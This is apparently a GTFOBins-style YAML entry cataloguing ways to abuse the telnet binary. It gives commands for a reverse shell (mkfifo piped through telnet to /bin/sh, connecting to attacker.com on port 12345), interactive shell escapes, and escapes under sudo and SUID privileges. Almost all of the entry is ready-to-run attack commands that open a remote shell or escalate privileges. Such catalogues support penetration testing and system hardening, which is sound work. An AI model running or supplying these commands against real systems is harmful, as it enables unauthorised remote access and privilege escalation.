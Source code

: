 ```yaml
---
functions:
  execute-interactive:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF
  sudo-enabled:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
  suid-limited:
    - description: BSD version only. Needs to be connected first.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
---
```

